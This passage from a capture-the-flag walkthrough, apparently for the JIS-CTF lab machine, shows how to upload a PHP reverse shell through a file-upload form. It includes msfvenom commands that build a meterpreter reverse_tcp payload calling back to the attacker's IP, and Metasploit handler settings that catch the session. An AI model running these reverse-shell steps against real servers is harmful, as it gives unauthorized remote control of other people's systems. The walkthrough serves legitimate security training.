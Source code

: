 and then using these credentials we can log in:

[<img src="{{ site.baseurl }}/images/jisctf/7.png"
 style="width: 800px;"/>]({{site.baseurl }}/images/jisctf/7.png)

 This allows file uploads, which is usually one of our main targets; if we can upload a file, hopefully we can upload a reverse webshell. This is a piece of code that will connect back to our computer and give us a remote terminal session on the server we're attacking. There are two main basic ways for a .php webshell (we know the server supports php because the login form etc is in php).

 One method is to use meterpreter. We generate a webshell using this command:

    msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.71 LPORT=4444 -e php/base64 -f raw > /tmp/shell.php

msfvenom is a part of metasploit that creates shells. "php/meterpreter/reverse_tcp" is one of the reverse shells in php. LHOST and LPORT are our IP address and a port we want to open to receive the connection back. It's also important to make it a php file by adding **`<?php`** to the start and **`?>`** to the end of the generated file, then upload it to the server.

we then start metasploit by typing **msfconsole** into our terminal. To set it up to to listen we use these settings:

    use exploit/multi/handler

this is our main handler, you'll use it for most listeners. now let's tell it what type of connection to expect, we use the same one that we passed to msfvenom:

    set payload php/meterpreter/reverse_tcp

and again, we tell it the LHOST and LPORT we sent to msfvenom:

    set LHOST 10.0.2.71
    set LPORT 4444

and then type "run". It will idle away and listen until it receives a connection. To make the shell we uploaded trigger the connection, we just run the file. Remember in the robots.txt file? let's take another look:

[<img src="{{ site.baseurl }}/images/jisctf/2.png"
 style="width: 800px;"/>]({{site.baseurl }}/images/jisctf/2.png)

the uploaded_files directory is where we'll find it. so we access it from the browser by oing to http://10.0.2.73/uploaded_files/shell.php

and metasploit gets the incoming request for a session. When we look around the files in here we see "hint.txt", this contains the 3rd flag:

 [<img src="{{ site.baseurl }}/images/jisctf/8.png"
  style="width: 800px;"/>]({{site.baseurl }}/images/jisctf/8.png)

There's also a flag.txt file, but only the technawi user can open it, so we'll look for this password and come back to it later.

**Note** there are other,simpler webshells that kali comes bundled with than what we used above, here's another method just for completeness sake. located in:

      /usr/share/webshells/php/php-reverse-shell.php
